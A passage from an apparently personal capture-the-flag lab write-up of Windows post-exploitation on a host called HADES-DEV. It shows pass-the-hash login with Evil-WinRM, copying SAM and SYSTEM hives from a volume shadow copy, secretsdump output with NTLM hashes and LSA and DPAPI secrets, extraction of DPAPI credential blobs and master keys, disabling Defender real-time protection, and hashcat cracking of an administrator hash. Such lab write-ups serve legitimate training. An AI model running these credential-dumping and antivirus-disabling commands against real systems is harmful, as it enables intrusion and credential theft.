    SHA1:64e5969e72cd63ca93b9e13018c4893e00def362
old/text: c3LKAXHAV_SK?RYz$aA%:bh&No;@_m8Imlp#5R45Ym5+Jezm$;Knzq3;78j4g?l,Vhs1x"+AT)zJd$t\[4-ftlPrR)h!R-B2xiRFaWrFZE"itr:m134A2yom
    NTLM:23fdedd1d759b30d4d19b50af74b19c7
    SHA1:329562e1c4ec28414664dfffbb57019d2c886c62

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 14 af 28 a0 44 20 5b 29 fa 28 7f fe 03 5c e8 01 02 d0 91 25 88 e6 52 1c 1f f9 c4 7e 1f 9a 34 04 fd 64 f5 75 3d 55 e5 b2 
    full: 14af28a044205b29fa287ffe035ce80102d0912588e6521c1ff9c47e1f9a3404fd64f5753d55e5b2
    m/u : 14af28a044205b29fa287ffe035ce80102d09125 / 88e6521c1ff9c47e1f9a3404fd64f5753d55e5b2
old/hex : 01 00 00 00 34 22 ad 67 be 5d 95 8d 99 a7 34 98 27 df a0 35 2d 6e 10 49 d5 af ff 0f 6c 64 70 24 08 6e d2 52 12 b6 82 9c 18 f7 2a 10 
    full: 3422ad67be5d958d99a7349827dfa0352d6e1049d5afff0f6c647024086ed25212b6829c18f72a10
    m/u : 3422ad67be5d958d99a7349827dfa0352d6e1049 / d5afff0f6c647024086ed25212b6829c18f72a10

Secret  : NL$KM
cur/hex : bc e0 99 9d 97 b6 e7 9d 3c b1 0f e7 4e 01 c8 de 07 e2 02 7f 6c 29 01 d0 78 33 49 f3 da a8 f5 28 dd 37 d3 b2 91 9b 7d 68 0b 09 e3 5c 52 ae 71 7c 40 a9 85 15 6b 48 37 ee 87 82 3e 6d b0 25 89 6b 
old/hex : bc e0 99 9d 97 b6 e7 9d 3c b1 0f e7 4e 01 c8 de 07 e2 02 7f 6c 29 01 d0 78 33 49 f3 da a8 f5 28 dd 37 d3 b2 91 9b 7d 68 0b 09 e3 5c 52 ae 71 7c 40 a9 85 15 6b 48 37 ee 87 82 3e 6d b0 25 89 6b
```

So here after several tried I decided to use the NTLM hash for local Administrator and login via Evil-WINRM from here I will dump the SAM and SYSTEM registry manually and parse them manually on my host:


And laslty we can decrypt those SAM/SYSTEM Hives by moving files to us and then using secretsdump from impacketer:

```BAsh
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-secretsdump -system system -sam sam LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67bb396c79f56301b7dc5d219cc85d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

Now backing up from what we found in KIWI in Meterpreter there was some secrets into DPAPI, and to dump them it should be feasable directly from out Linux machine with https://github.com/login-securite/DonPAPI

Edit: is not working! Now here i had to go back and check TIPS and apparently what I missed was to check for possible Shadow copies on HADES-DEV:

```Bash
*Evil-WinRM* PS C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {001689e5-f1a7-40a8-8b5b-8b6371bd07ca}
   Contained 1 shadow copies at creation time: 9/9/2019 3:10:57 AM
      Shadow Copy ID: {046396e4-6312-45b7-96cd-5e5f6fb017ef}
         Original Volume: (C:)\\?\Volume{21385651-0000-0000-0000-602200000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: dev.htb.local
         Service Machine: dev.htb.local
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

Now that we know there is a Shadow copy we could dump the SAM/SYSTEM hives from there and then we can dump secrets again and see if we can grab some more informations instead:

```Bash
*Evil-WinRM* PS C:\temp> cd \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
Cannot find path '\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\' because it does not exist.
At line:1 char:1
+ cd \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\?\GLOBALROOT\...umeShadowCopy1\:String) [Set-Location], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.SetLocationCommand
*Evil-WinRM* PS C:\temp> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SYSTEM c:\temp\system
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
*Evil-WinRM* PS C:\temp> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\SAM c:\temp\sam
```

I'm having troubles to copy directly so let's try to symlink as described here:



But I'm having trouble to use that command:



And now we mounted the disk:

```BAsh
*Evil-WinRM* PS C:\> cmd /c mklink /d C:\shadow \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
symbolic link created for C:\shadow <<===>> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018  12:12 AM                PerfLogs
d-r---        9/15/2018  12:21 AM                Program Files
d-----         9/3/2019   3:29 PM                Program Files (x86)
d----l        7/20/2023   8:23 AM                shadow
d----l        7/20/2023   8:20 AM                shadowcopy
d-----        7/20/2023   8:09 AM                Temp
d-r---       10/15/2019   2:05 AM                Users
d-----        10/2/2019   4:52 PM                Windows


*Evil-WinRM* PS C:\> cd shadow
```

And now copying again SAM/SYSTEM but this time from mounted share:

```Bash
*Evil-WinRM* PS C:\> copy C:\shadow\windows\system32\config\SYSTEM C:\temp\SYSTEM
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
*Evil-WinRM* PS C:\> copy C:\shadow\windows\system32\config\SAM C:\temp\SAM
*Evil-WinRM* PS C:\> ls


    Directory: C:\

*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/9/2019   3:08 AM          65536 SAM
-a----         9/9/2019   3:08 AM       12320768 SYSTEM
```

And again we download the files and try to dump it's content with secretsdump from Impacker's suite:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY LOCAL                       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:de53e322ea95ac2723a2e3e149874aac:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:79004a003c003f0037003900710038004a00400075003e006c00580026007900510064004900490071003800660040006600680071004e0032005a0041002d0063006d0021003e003c00640075003c006a00540077003800390040005d00760030006a005900700052006700690032006f002c0043002d00790078003a006f00610078002800530066006400280065006e005b004a0044005100300079002f0045006f0067005300660033002f0044003800740061007900370039007a002e0020004500280079007a00400049002400320046005c006600500047006c003d002a005c003600200062004c005d003400
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:95e8a6fd440364b8c5d3c51bc4088e50
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x14af28a044205b29fa287ffe035ce80102d09125
dpapi_userkey:0x88e6521c1ff9c47e1f9a3404fd64f5753d55e5b2
[*] NL$KM 
 0000   BC E0 99 9D 97 B6 E7 9D  3C B1 0F E7 4E 01 C8 DE   ........<...N...
 0010   07 E2 02 7F 6C 29 01 D0  78 33 49 F3 DA A8 F5 28   ....l)..x3I....(
 0020   DD 37 D3 B2 91 9B 7D 68  0B 09 E3 5C 52 AE 71 7C   .7....}h...\R.q|
 0030   40 A9 85 15 6B 48 37 EE  87 82 3E 6D B0 25 89 6B   @...kH7...>m.%.k
NL$KM:bce0999d97b6e79d3cb10fe74e01c8de07e2027f6c2901d0783349f3daa8f528dd37d3b2919b7d680b09e35c52ae717c40a985156b4837ee87823e6db025896b
[*] Cleaning up...
```

Here we can see the master key, but I had to check again for tips and the guide was telling me do check manually for Secrets in the Shadow copy:

```Bash
*Evil-WinRM* PS C:\> Get-ChildItem -Hidden C:\shadow\Users\Administrator\AppData\Roaming\Microsoft\Credentials\
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
^[[A

    Directory: C:\shadow\Users\Administrator\AppData\Roaming\Microsoft\Credentials


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-         9/9/2019   3:08 AM            474 1A2572C793495F694F64823A392D4718
-a-hs-         9/9/2019   3:07 AM            474 4A2EEB30EFC7958491B6578D9948EC7F
```

But the files are hidden and we can't just move then we have to "Unhide":



```BAsh
*Evil-WinRM* PS C:\temp> download 1A2572C793495F694F64823A392D4718 /
/.              /0              /boot           /etc            /initrd.img     /lib            /lib64          /lost+found     /mnt            /proc           /run            /snap           /sys            /usr            /vmlinuz       
/.autorelabel   /bin            /dev            /home           /initrd.img.old /lib32          /libx32         /media          /opt            /root           /sbin           /srv            /tmp            /var            /vmlinuz.old   
*Evil-WinRM* PS C:\temp> download 1A2572C793495F694F64823A392D4718 /home/millycash/Downloads/HADES/1A2572C793495F694F64823A392D4718
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
                                        
Info: Downloading C:\temp\1A2572C793495F694F64823A392D4718 to /home/millycash/Downloads/HADES/1A2572C793495F694F64823A392D4718
                                        
Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError

          rescue EstandardError => err
                 ^^^^^^^^^^^^^^
Did you mean?  StandardError
*Evil-WinRM* PS C:\temp> attrib -s -h "C:\temp\1A2572C793495F694F64823A392D4718"
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
*Evil-WinRM* PS C:\temp> attrib -s -h "C:\temp\4A2EEB30EFC7958491B6578D9948EC7F"
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/9/2019   3:08 AM            474 1A2572C793495F694F64823A392D4718
-a----         9/9/2019   3:07 AM            474 4A2EEB30EFC7958491B6578D9948EC7F
-a----         9/9/2019   3:08 AM          65536 SAM
-a----         9/9/2019   3:08 AM          65536 SECURITY
-a----         9/9/2019   3:08 AM       12320768 SYSTEM
```

At last we can download them locally!

And parsing files shows where the Master key should be located in the VSS:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-dpapi credential -file 1A2572C793495F694F64823A392D4718                                                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[BLOB]
Version          :        1 (1)
Guid Credential  : DF9D8CD0-1501-11D1-8C7A-00C04FC297EB
MasterKeyVersion :        1 (1)
Guid MasterKey   : 87790867-A883-4A2D-A467-019C315E1104
Flags            : 20000000 (CRYPTPROTECT_SYSTEM)
Description      : Enterprise Credential Data

CryptAlgo        : 00006610 (26128) (CALG_AES_256)
Salt             : b'70fb047908ba7943f6933f49a289e407b87d8432e85bbe45ad9b91cee513bc9c'
HMacKey          : b''
HashAlgo         : 0000800e (32782) (CALG_SHA_512)
HMac             : b'9e73cba5176f1ba8bbd5a999eb9092e9371dfba4195d55d5e30b030e671206cb'
Data             : b'b55d72a3e4f00c4b103e5a23e6cb4bc97594204460d87cb7555dc700cd8c304050f0bac19475c4e9b0935d8808d7e6ef67d37d11ac43c6018bc59a8de680548c5e6f5f5344b4a9f9f0ea6fc3d6d847a72fbb97a54845c627e37b7aa368b4d6d24831af7cc2bcec6ac7d376651adb734bf93091eb034722cdd99974da553fa741eb5124394189e6018ad07543f796102adc5e3f81b28082350cab75ca407025a449eafc18c5795fe15e497df6a330ed64ca37f94df1b32dfb592f0562d1fabcce'
Sign             : b'a0a7a1f7462b93455e6673f33d45742931269a9eb9666515a04852bdfcb78ad570352e10c78805356f8baf0751f33dcfb70b29a9c49eb10ec14121e815381196'

Cannot decrypt (specify -key or -sid whenever applicable) 
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# impacket-dpapi credential -file 4A2EEB30EFC7958491B6578D9948EC7F 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[BLOB]
Version          :        1 (1)
Guid Credential  : DF9D8CD0-1501-11D1-8C7A-00C04FC297EB
MasterKeyVersion :        1 (1)
Guid MasterKey   : 87790867-A883-4A2D-A467-019C315E1104
Flags            : 20000000 (CRYPTPROTECT_SYSTEM)
Description      : Enterprise Credential Data

CryptAlgo        : 00006610 (26128) (CALG_AES_256)
Salt             : b'fdb8e305b9dee0d4731a4e95af29273c2da220f0f7a5d41d83bfd14dff9f8cc5'
HMacKey          : b''
HashAlgo         : 0000800e (32782) (CALG_SHA_512)
HMac             : b'c79494440e85f96dba9a8244ddef0a399ba44453dcfda0ae2a0e69349c0b0a0f'
Data             : b'b207f818a6599b2f7b4cbd9635bfa1658489e4ff501cd14d89187bea2e1ebafb01ce45bbc23100e8d3316c8ba0f02370ac09985027298520434cc9f607c52ce92bae597b54451f7f79b24b9c3184794927cbbccf0babde469ae281481a7e96b19c3131de62a77cb0f95604b02668aa9c54f04714c79843874f9a98131b8f22bfde94cfd011b1f3a56c1bab6e09ee0aa4e452d5b1c751d91659c11a0544cb6923bd9d891b07c432d844810a55a2dc3aa87db3452d2ad679c76532db453937c226'
Sign             : b'e59eba5fedeb1dab7d34f4e8392471dfed422e845bee3d5b83994d8c8fd4ce1b84b58550ca7514f28d5115a64bf6c5c830cbb40a5e213a519f829893186edbc0'

Cannot decrypt (specify -key or -sid whenever applicable) 
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
```

We should be able to find it here:



We get the Administrators SID:

```BAsh
*Evil-WinRM* PS C:\temp> wmic useraccount get name,sid
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
Name                SID

Administrator       S-1-5-21-4124311166-4116374192-336467615-500

DefaultAccount      S-1-5-21-4124311166-4116374192-336467615-503

Guest               S-1-5-21-4124311166-4116374192-336467615-501

WDAGUtilityAccount  S-1-5-21-4124311166-4116374192-336467615-504
```

and then we find the keys:

```BAsh
*Evil-WinRM* PS C:\temp> Get-ChildItem -Hidden C:\shadow\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500


    Directory: C:\shadow\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-         9/9/2019   3:07 AM            468 87790867-a883-4a2d-a467-019c315e1104
-a-hs-         9/8/2019  12:44 PM            468 dc6059f1-5ba2-4186-871a-0ff4055a6875
-a-hs-         9/9/2019   3:07 AM             24 Preferred


*Evil-WinRM* PS C:\temp>
```

Laslty we save them locally for decryption!

But before I'm trying to upload Winpeas.bat and check if It would have notified me of shadow copies and when I try to upload seems like Defender is killing the upload:



Let's check Defender presence:

```Bash
*Evil-WinRM* PS C:\TEMP> Get-MpComputerStatus


AMEngineVersion                 : 1.1.18800.4
AMProductVersion                : 4.18.1910.4
AMServiceEnabled                : True
AMServiceVersion                : 4.18.1910.4
AntispywareEnabled              : True
AntispywareSignatureAge         : 559
AntispywareSignatureLastUpdated : 1/7/2022 4:18:50 AM
AntispywareSignatureVersion     : 1.355.1571.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 559
AntivirusSignatureLastUpdated   : 1/7/2022 4:18:51 AM
AntivirusSignatureVersion       : 1.355.1571.0
BehaviorMonitorEnabled          : True
ComputerID                      : CF66FC0F-4FEC-450B-9703-995AA718C602
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 :
FullScanStartTime               :
IoavProtectionEnabled           : True
IsTamperProtected               : False
IsVirtualMachine                : True
LastFullScanSource              : 0
LastQuickScanSource             : 2
NISEnabled                      : True
NISEngineVersion                : 1.1.18800.4
NISSignatureAge                 : 559
NISSignatureLastUpdated         : 1/7/2022 4:18:51 AM
NISSignatureVersion             : 1.355.1571.0
OnAccessProtectionEnabled       : True
QuickScanAge                    : 0
QuickScanEndTime                : 7/20/2023 7:55:25 PM
QuickScanStartTime              : 7/20/2023 7:54:54 PM
RealTimeProtectionEnabled       : True
RealTimeScanDirection           : 0
PSComputerName                  :
```

And doing so now we disabled the Realtime protection:

```Bash
*Evil-WinRM* PS C:\TEMP> Set-MpPreference -DisableRealtimeMonitoring $true
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.201:5985  ...  OK
*Evil-WinRM* PS C:\TEMP> Get-MpComputerStatus


AMEngineVersion                 : 1.1.18800.4
AMProductVersion                : 4.18.1910.4
AMServiceEnabled                : True
AMServiceVersion                : 4.18.1910.4
AntispywareEnabled              : True
AntispywareSignatureAge         : 559
AntispywareSignatureLastUpdated : 1/7/2022 4:18:50 AM
AntispywareSignatureVersion     : 1.355.1571.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 559
AntivirusSignatureLastUpdated   : 1/7/2022 4:18:51 AM
AntivirusSignatureVersion       : 1.355.1571.0
BehaviorMonitorEnabled          : False
ComputerID                      : CF66FC0F-4FEC-450B-9703-995AA718C602
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 :
FullScanStartTime               :
IoavProtectionEnabled           : False
IsTamperProtected               : False
IsVirtualMachine                : True
LastFullScanSource              : 0
LastQuickScanSource             : 2
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
NISSignatureAge                 : 4294967295
NISSignatureLastUpdated         :
NISSignatureVersion             : 0.0.0.0
OnAccessProtectionEnabled       : False
QuickScanAge                    : 0
QuickScanEndTime                : 7/20/2023 7:55:25 PM
QuickScanStartTime              : 7/20/2023 7:54:54 PM
RealTimeProtectionEnabled       : False
RealTimeScanDirection           : 0
PSComputerName                  :
```

And now we can upload Linpeas and other tools to get a better view, my scope is to see if Winpeas would have found about VSS copies...

Now to decrypt out dpapi keys we need 3 things(secrets, master keys and password), I fixed the first 2 yesterday but we are missing the password and knowing that is coming from local Administrator on HADES-DEV and we got diffentet NTLM hashes for Administrator between actual account and secrets from VSS copy we can assume that Admin password have been changed in between. But we can crack the NTML hash from the VSS copy:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# hashcat -a 0 -m 1000 Administrator.hash  /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 5800H with Radeon Graphics, 5853/11770 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

de53e322ea95ac2723a2e3e149874aac:./*40ra26AZ              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: de53e322ea95ac2723a2e3e149874aac
Time.Started.....: Fri Jul 21 09:40:45 2023 (1 sec)
Time.Estimated...: Fri Jul 21 09:40:46 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 13292.8 kH/s (0.16ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14286848/14344385 (99.60%)
Rejected.........: 0/14286848 (0.00%)
Restore.Point....: 14270464/14344385 (99.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 00212655 -> ...alfie
Hardware.Mon.#1..: Temp: 57c Util: 22%

Started: Fri Jul 21 09:40:44 2023
Stopped: Fri Jul 21 09:40:48 2023
```

And here is a comparation:

- Now:



- Before(from VSS copy):

